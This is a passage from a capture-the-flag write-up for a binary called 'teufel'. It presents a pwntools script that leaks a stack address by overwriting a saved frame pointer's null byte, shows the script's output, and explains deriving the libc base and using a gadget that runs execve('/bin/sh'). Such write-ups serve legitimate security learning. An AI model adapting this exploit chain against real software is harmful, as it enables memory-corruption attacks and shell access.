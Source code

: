 Now, something that I've noticed is that the last byte of the saved frame
pointer on the stack always ends with a null byte. So, if we can overwrite that
byte, the program will print the buffer and can leak that address on the stack.
Here is a script to automate this:

```python
from pwn import *

#context.log_level = "debug"

def launch(conn, payload):
    conn.send(p64(len(payload)))
    conn.send(payload)


def main():
    p = process("./teufel")

    # Stage 1 - Info leak

    launch(p, "A"*9)
    add = p.recv(100)[9:-1]
    add = "\x00" + add
    add = add.ljust(8, "\x00")
    address = u64(add)

    log.success("Address of buffer: 0x%x" % address)

if __name__ == "__main__":
    main()
```

Running the script a couple of times on the local binary:

```shell
$ python leak.py
[+] Started program './teufel'
[+] Address of buffer: 0x7ff541e56000
[*] Stopped program './teufel'
$ python leak.py
[+] Started program './teufel'
[+] Address of buffer: 0x7fae16f1f000
[*] Stopped program './teufel'
```

Now, since the program runs in an endless loop, we can utilise our info leak.
The intended solution is to probably use multiple 'mov pop ret' ROP gadgets in
the binary, but I used an easier approach. After some exploration of the way the
kernel maps libc.so.6 and the mmap space, I realised that you could calculate
the base address of libc.so.6 reliably from the infoleak. In the challenge's
case, it was 0x5ea000 lower than the stored base address.

From this libc base address, we can use gadgets in the provided libc.so.6. I've
discovered a magic address that automagically does `execve("/bin/sh")`.
